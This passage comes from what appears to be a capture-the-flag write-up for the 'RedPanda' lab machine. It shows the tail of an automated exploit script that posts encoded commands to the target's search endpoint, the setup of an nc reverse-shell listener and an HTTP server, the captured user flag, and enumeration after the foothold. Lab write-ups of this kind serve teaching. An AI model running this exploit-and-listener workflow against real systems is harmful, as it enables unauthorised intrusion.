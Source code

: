 ```python
    return(payload)  
  
for c in command:  
    d = {'name': convert_to_char(c)}  
    url = 'http://%s:%s/search' % (IP,PORT)  
    r = requests.post(url,data = d)  
    print(r.status_code)
```


open 2 new tab with `http.server 8088` and `rlwrap nc -nvlp 1234`. At the 3 tabs run `python3 auto_exploit.py`
The `user.txt` flag:
```txt
efaa8f33e98ff3993b20c6bade76a83a
```

# Foothold
Check the port open with `netstat -tulpn`
```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      887/java
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the `id,group`
```bash
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the process with `pspy64`
![pspy64.png](img/pspy64.png)
I think there are some process that running in `cronjob`:
![pspy64_1](img/pspy64_1.png)
